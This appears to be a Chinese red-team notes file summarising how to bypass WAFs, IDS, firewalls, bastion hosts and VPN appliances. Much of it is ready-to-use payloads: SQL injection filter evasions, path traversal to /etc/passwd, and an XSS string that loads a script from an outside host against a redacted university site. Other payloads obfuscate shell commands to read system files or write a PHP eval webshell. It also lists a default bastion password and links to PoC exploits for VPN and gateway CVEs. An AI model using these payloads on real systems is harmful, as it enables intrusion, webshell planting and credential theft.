






# 安防设备总结

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **WAF**
    * [路径限制绕过](#路径限制绕过)
    * [匹配绕过](#匹配绕过)
    * [分段传输](#分段传输)
    * [长度](#长度)
    * [来源](#来源)
    * [性能角度](#性能角度)
    * [POST](#post)
    * [MYSQL](#mysql)
    * [sqlserver](#sqlserver)

* **堡垒机**
    * [齐治堡垒机](#齐治堡垒机)

* **边界设备**
    * [IDS](#ids)
    * [防火墙](#防火墙)
    * [网关](#网关)
    * [VPN](#VPN)

---

**文章**
- [下一座圣杯 - 2019](https://mp.weixin.qq.com/s/6Kli-u6LEInoliTVQgdrFQ)

**安全产品默认口令**
- [网络安全产品默认口令](http://www.r4v3zn.com/spear-framework/#/default-pwd/security-products)

---

# WAF

**文章**
- [██大学通用型 WAF 不完全绕过(持续非定期更新) ](https://drivertom.blogspot.com/2018/12/waf.html)
- [技术讨论 | 在 HTTP 协议层面绕过 WAF](https://www.freebuf.com/news/193659.html)
- [利用分块传输吊打所有 WAF](https://www.anquanke.com/post/id/169738)
- [编写 Burp 分块传输插件绕 WAF](http://gv7.me/articles/2019/chunked-coding-converter/)
- [输入内容存在危险字符,安全起见,已被本站拦截](https://bbs.ichunqiu.com/thread-44577-1-1.html)
- [Web Application Firewall (WAF) Evasion Techniques – secjuice™ – Medium](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)
- [浅谈绕过 waf 的数种方法](https://www.waitalone.cn/waf-bypass.html)
- [绕过云锁文件读取防护](https://drivertom.blogspot.com/2019/06/lfi.html)
- [TSRC挑战赛：WAF之SQL注入绕过挑战实录](https://security.tencent.com/index.php/blog/msg/66)

**工具**
- [EnableSecurity/wafw00f: WAFW00F allows one to identify and fingerprint Web Application Firewall (WAF) products protecting a website.](https://github.com/EnableSecurity/wafw00f) - 识别waf指纹的工具

**导图**
- WAF绕过思路 [png](../../../../assets/img/安全/笔记/RedTeam/安防设备总结/WAF绕过思路.png)

**payload**
- [devploit/XORpass](https://github.com/devploit/XORpass#example-of-bypass) - 使用XOR编码器绕过 WAF

---

## 路径限制绕过

比如 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过.

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

例如连续两个 `../` 会被拦截,可以尝试采用 `./`,例如存在关键词,可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

---

## 匹配绕过

**关键字替换**

1. AND 等价于 &&
2. OR 等价于 ||
3. = 等价于 like
4. + 代替 空格
5. sleep() 等价于 benchmark()
6. mid()substring() 等价于 substr()

```
最直白的 payload 类似 `<script> alert('xss'); </script>`,但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`
```

**注释符绕过**

1. `/**/` 与 `/*!*/` ,还可以代替空格
2. `select/*@a?v|ddd--n*/xxxxx/*@a?v|ddd--n*/from/*a?v|ddd--n*/xxxx`由于waf解析注释符耗费性能,因此这种方法结合fuzz能找到漏网之鱼
3. emoji 表情
4. -- 与 #

```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染.形如以下形式:`?id=1&id=2&id=3` 的形式,此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的.
假设提交的参数即为:
```
id=1&id=2&id=3

Asp.net + iis:id=1,2,3
Asp + iis:id=1,2,3
Php + apache:id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```

**linux变量特性**

利用 * 匹配和 "" 为空白的特性
```
\l\s -l\a\h
""c""at /""**c""/""""**********""a""d******""
cat /e?c/p?ss??
cat /e??/??ss*
l''s
{l<s,}
{ls,-a}

cat</etc/passwd
```

使用空的 shell 变量特性
```
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
IFS=,;`cat<<<cat,/etc/passwd`

c${fuckwaf}at /e${fuckwaf}tc/${fuckwaf}pass${fuckwaf}wd
```

**多重编码**
- [How to hack a company by circumventing its WAF for fun and profit – part 2](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-for-fun-and-profit-part-2/) - 通过多重编码绕过 iRules 规则

---

## 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来,当浏览器发起一个 http 请求时,浏览器先和服务器建立起连接 tcp 连接,然后发送 http 数据包(即我们用 burpsuite 截获的数据),其中包含了一个 Connection 字段,一般值为 close,apache 等容器根据这个字段决定是保持该tcp连接或是断开.当发送的内容太大,超过一个 http 包容量,需要分多次发送时,值会变成 keep-alive,即本次发起的 http 请求所建立的 tcp 连接不断开,直到所发送内容结束 Connection 为 close 为止.

- **测试**

    关闭 burp 的 Repeater 的 Content-Length 自动更新,如图所示,点击红圈的 Repeater 在下拉选项中取消 update Content-Length 选中.这一步至关重要!!!
    

    burp 截获 post 提交

    `id=1 and 1=1` 会被 waf,将数据包复制一遍,如图

    

    接着修改第一个数据包的数据部分,即将 `id=1+and+1%3D1` 修改为正常内容 `id=1`,再将数据包的 Content-Length 的值设置为修改后的 `id=1` 的字符长度即 4,最后将 Connection 字段值设为 keep-alive.提交后如图所示,会返回两个响应包,分别对应两个请求.

    

    注意:从结果看,第一个正常数据包返回了正确内容,第二个包含 Payload 的数据包被某狗 waf 拦截,说明两数据包都能到达服务器,在面对其他 waf 时有可能可以绕过.无论如何这仍是一种可学习了解的绕过方法,且可以和接下来的方法进行组合使用绕过.

**分块编码传输绕过**
- **原理**

    在头部加入 Transfer-Encoding: chunked 之后,就代表这个报文采用了分块编码.这时,post 请求报文中的数据部分需要改为用一系列分块来传输.每个分块包含十六进制的长度值和数据,长度值独占一行,长度不包括它结尾的,也不包括分块数据结尾的,且最后需要用 0 独占一行表示结束.

    开启上个实验中已关闭的 content-length 自动更新.给 post 请求包加入 Transfer-Encoding: chunked 后,将数据部分 `id=1 and 1=1` 进行分块编码(注意长度值必须为十六进制数),每一块里长度值独占一行,数据占一行如图所示.
    

    注意:分块编码传输需要将关键字 and,or,select ,union 等关键字拆开编码,不然仍然会被 waf 拦截.编码过程中长度需包括空格的长度.最后用 0 表示编码结束,并在 0 后空两行表示数据包结束,不然点击提交按钮后会看到一直处于 waiting 状态.

**利用协议未覆盖进行绕过**
- **原理**

    HTTP 头里的 Content-Type 一般有 application/x-www-form-urlencoded,multipart/form-data,text/plain 三种,其中 multipart/form-data 表示数据被编码为一条消息,页上的每个控件对应消息中的一个部分.所以,当 waf 没有规则匹配该协议传输的数据时可被绕过.

    将头部 Content-Type 改为 `multipart/form-data; boundary=69` 然后设置分割符内的 Content-Disposition 的 name 为要传参数的名称.数据部分则放在分割结束符上一行.
    

    由于是正常数据提交,所以从图可知数据是能被 apache 容器正确解析的,尝试 `1 and 1=1` 也会被某狗 waf 拦截,但如果其他 waf 没有规则拦截这种方式提交的数据包,那么同样能绕过.

    一般绕waf往往需要多种方式结合使用,示例中,只需将数据部分 `1 and 1=1` 用一个小数点 `"."` 当作连接符即 `1.and 1=1` 就可以起到绕过作用.当然,这只是用小数点当连接符所起的作用而已.

**组合使用**

在协议未覆盖的数据包中加入 Transfer-Encoding: chunked ,然后将数据部分全部进行分块编码,如图所示(数据部分为 `1 and 1=1` ).



注意:第2块,第3块,第7块,和第8块.

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式,且长度值要将两个空行的长度计算在内(空行长度为2).

第3块,即数据开始部分需满足
```
长度值
空行
数据
```

形式,且需将空行计算在内.

第7块即分割边界结束部分,需满足
```
长度值
空行
分割结束符
空行
```

形式,且计算空行长度在内.

第8块需满足
```
0空格
空行
空行
```
形式.如果不同时满足这四块的形式要求,payload 将不会生效.

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `";"` 作为注释,如:
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

---

## 长度

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

## 来源


- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

---

## 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题,例如如果是基于数据包的话会考虑检测数据包的包长,如果是基于数据流的话就会考虑检测一条数据流的多少个字节.一般这类算检测的性能,同时为了保证 WAF 的正常运行,往往还会做一个 bypass 设计,在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候,会做检测 bypass,以保证设备的正常运行.

现在问题就是检测多长呢？例如我用 HTTP POST 上传一个 2G 的文件,明显不可能 2G 全做检测不但耗 CPU,同时也会耗内存.因此在设计 WAF 的时候可能就会设计一个默认值,有可能是默认多少个字节的流大小,可能是多少个数据包.

设计了一个脚本,不断的向 HTTP POST 添加填充数据,当将填充数据添加到一定数目之后,发现 POST 中的 sql 注入恶意代码没有被检测了.最终达到了 bypass 的目的.

**性能负载**

一些传统硬件防护设备为了避免在高负载的时候影响用户体验,如延时等等问题,会考虑在高负载的时候 bypass 掉自己的防护功能,等到设备的负载低于门限值的时候又恢复正常工作.

一些高性能的 WAF 可能使用这种方法可能不能 bypass,但是一些软 WAF 使用这种方式还是可以 bypass 的.

例子,将请求并发同时发送多次,多次访问的时候就有几次漏掉了,没有触发 waf 的拦截.

**案例**
- [实战渗透-看我如何拿下自己学校的大屏幕(Bypass) ](https://xz.aliyun.com/t/7786)

---

## POST

urlencode 和 form-data POST 在提交数据的时候有两种方式,第一种方式是使用 urlencode 的方式提交,第二种方式是使用 form-data 的方式提交.当我们在测试站点的时候,如果发现 POST 提交的数据被过滤掉了,此时可以考虑使用 form-data 的方式去提交.

我们在阿里云 ecs 主机上搭建个环境,创建一个存在 sql 注入漏洞的页面,获取参数从 POST 上获取,首先我以 urlencode 的方式提交,查看发现提交的请求被阻断了.

其次我们以 form-data 的方式提交,发现爆出了数据库的版本.



---

## MYSQL

**参数和 union 之间的位置**
- `\Nunion` 的形式

    

- 浮点数的形式如 1.1,8.0

    

- 8e0 的形式

    

- 利用 `/*!50000*/` 的形式

    

**union 和 select 之前的位置**
- 空白字符

    Mysql 中可以利用的空白字符有:%09,%0a,%0b,%0c,%0d,%a0;

- 注释

    MYSQL中可以利用的空白字符有:
    ```
    /**/
    /*letmetest*/
    ```

- 使用括号

    

**union select 后的位置**
- 空白字符
- 注释
- 括号:select(1)from

    

- 减号:

    

- 加号:

    

- `~` 号:

    

- `!` 号:

    

- `@` 形式

    

- `*` 号,利用 /*!50000*/ 的形式

    

- 单引号和双引号:

    

- `{` 括号:

    

- `\N` 符号:

    

**select from 之间的位置**
- 空白字符
- 注释
- ``

    

- `+,-,!,~,’"`

    

- `*` 号

    

- `{` 号

    

- `(` 号

    

**select from 之后的位置**
- 空白字符
- 注释
- `` 号

    

- `*` 号

    

- `{` 号

    

- 括号

    

**过滤函数**
- 字符串截取函数
    ```sql
    Mid(version(),1,1)
    Substr(version(),1,1)
    Substring(version(),1,1)
    Lpad(version(),1,1)
    Rpad(version(),1,1)
    Left(version(),1)
    reverse(right(reverse(version()),1)
    ```

- 字符串连接函数
    ```sql
    concat(version(),'|',user());
    concat_ws('|',1,2,3)
    ```

- 字符转换
    ```
    Char(49)
    Hex(‘a’)
    Unhex(61)
    Ascii(1)
    ```

**过滤了逗号**
- limit 处的逗号

    ```
    limit 1 offset 0
    ```

- 字符串截取处的逗号

    ```
    mid(version() from 1 for 1)
    ```

- union 处的逗号

    通过 join 拼接.

    

## sqlserver

**select from 后的位置**
- 空白符号
    ```
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
    需要做 urlencode,sqlserver 中的表示空白字符比较多,靠黑名单去阻断一般不合适.

- 注释符号

    Mssql 也可以使用注释符号 `/**/`

- `.` 符号

    

- `:` 号

    

**select from 之间的位置**
- 空白符号
- 注释符号
- `:` 号

**and之后的位置**
- 空白符号
- 注释符号
- `:` 号
- `%2b` 号

    

**常见过滤函数**
- 字符串截取函数
    ```
    Substring(@@version,1,1)
    Left(@@version,1)
    Right(@@version,1)
    ```

- 字符串转换函数
    ```
    Ascii(‘a’) 这里的函数可以在括号之间添加空格的,一些waf过滤不严会导致bypass
    Char(‘97’)
    ```

- Mssql 支持多语句查询,因此可以使用;结束上面的查询语句,然后执行自己构造的语句.动态执行.

    使用 exec 的方式:

    

    使用 sp_executesql 的方式:

    

---

# 堡垒机

## 齐治堡垒机

**默认口令**
- shterm/shterm

**齐治堡垒机 ShtermClient-2.1.1 命令执行漏洞**
- [齐治堡垒机ShtermClient-2.1.1命令执行漏洞（CNVD-2019-09593）分析](https://www.cnblogs.com/StudyCat/p/11201725.html)

**CNVD-2019-20835 齐治堡垒机前台远程命令执行漏洞**
- [齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）分析](https://www.cnblogs.com/StudyCat/p/11256944.html)

**CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
- [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

---

# 边界设备

## IDS

**文章**
- [IDS逃避技术和对策](https://www.oschina.net/question/12_6140)
- [网络层绕过IDS/IPS的一些探索](https://security.tencent.com/index.php/blog/msg/147)

---

## 防火墙

**Cisco ASA**
- **CVE-2018-0296 Cisco ASA Directory Traversal**
    - POC | Payload | exp
        - [yassineaboukir/CVE-2018-0296](https://github.com/yassineaboukir/CVE-2018-0296)

**Sophos XG**
- **CVE-2020-12271 && CVE-2020-15504**
    - 相关文章
        - [Sophos XG - A Tale of the Unfortunate Re-engineering of an N-Day and the Lucky Find of a 0-Day](https://codewhitesec.blogspot.com/2020/07/sophos-xg-tale-of-unfortunate-re.html)

---

## 网关

**上海格尔安全认证网关管理系统**
- [WooYun-2016-170003 上海格尔安全认证网关管理系统命令执行漏洞大礼包](http://php.evi1s.com/bugs/wooyun-2016-0170003.html)

---

## 负载均衡

**Citrix ADC**
- **CVE-2019-19781 Citrix Gateway/ADC 远程代码执行漏洞**
    - 文章
        - [Citrix Gateway/ADC 远程代码执行漏洞分析](https://www.freebuf.com/news/232752.html)

    - POC | Payload | exp
        - [trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)

**F5 BIG-IP ADC**
- **CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞**
    - 文章
        - [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
        - [F5 BIG-IP Remote Code Execution Exploit - CVE-2020-5902 | Critical Start](https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/)

    - POC | Payload | exp
        - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
        - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

---

## VPN

**Fortigate SSL VPN**
- **CVE-2018-13379 Fortigate SSL VPN 密码读取**
    - [milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)
- **CVE-2018-13382 Fortigate SSL VPN 任意密码重置**
    - [milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**Palo_Alto SSL VPN**
- **CVE-2019-1579 Palo Alto GlobalProtect 远程代码执行漏洞**
    - 文章
        - [Orange: Attacking SSL VPN - Part 1: PreAuth RCE on Palo Alto GlobalProtect, with Uber as Case Study!](https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html)
        - [Palo Alto GlobalProtect上的PreAuth RCE](https://www.cnblogs.com/backlion/p/11209054.html)

    - POC | Payload | exp
        - [securifera/CVE-2019-1579](https://github.com/securifera/CVE-2019-1579)

**Pulse_Secure SSL VPN**
- **CVE-2019-11510 Pulse Secure SSL VPN 任意文件读取漏洞**
    - 文章
        - [Pulse Secure 任意文件读取（CVE-2019-11510）漏洞](https://www.cnblogs.com/StudyCat/p/11440991.html)

    - POC | Payload | exp
        - [projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510)

- **CVE-2019-11539 Pulse Secure SSL VPN 远程代码执行漏洞**
    - [0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)
